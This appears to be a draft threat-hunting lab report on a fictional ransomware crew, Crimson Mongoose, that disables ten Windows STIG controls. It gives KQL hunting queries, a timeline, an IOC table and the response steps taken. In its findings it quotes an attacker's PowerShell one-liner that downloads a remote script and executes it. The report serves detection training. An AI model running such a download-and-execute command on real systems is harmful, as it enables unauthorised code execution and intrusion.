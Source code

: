 ![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging (((DRAFT))) 
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where ActionType == "RegistryValueSet"  
| where RegistryKey has_any ([...])
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, 
         RegistryValueData, InitiatingProcessAccountName,  
         InitiatingProcessFileName
| order by Timestamp desc
```
Findings: All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked `DeviceProcessEvents` for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
| order by Timestamp desc
```

Findings:
Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched `DeviceNetworkEvents` for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985):

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985 and Protocol == "Tcp")  
   or (LocalPort == 445 and Protocol == "Tcp")
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
| order by Timestamp desc
```

### 4. Validation - Confirmed All 10 STIG Controls Modified
Validated that all 10 controls were modified by same account:
```kql
DeviceRegistryEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ActionType == "RegistryValueSet"
| where RegistryKey has_any ([list of 10 specific paths])
| summarize 
    ModifiedControls = dcount(RegistryKey),
    ControlsList = make_set(RegistryKey),
    UniqueAccounts = dcount(InitiatingProcessAccountName)
  by DeviceName
| where ModifiedControls == 10
```
Findings: Confirmed all 10 STIG controls were modified by single account (corp\backupsvc) within 2-minute window.

---

### Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

| IOC (Type) | Value | Confidence | MITRE ATT&CK
|-------|-----------|-------|-----------|
| Compromised Account | corp\backupsvc | High | T1078
| Malicious Process | powershell.exe -ep Bypass -NoProfile | High | T1059.001
| C2 Server | 10.0.0.15:5985 (WinRM) | Medium | T1021.006
| Malicious Script | stig-pre-staging-iocs.ps1 | High | T1203
| Registry Modifications | 10 STIG controls disabled | High | T1112

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
Immediate Actions:

- Isolated device via MDE
- Disabled corp\backupsvc account
- Initiated enterprise-wide hunt for similar activity

---
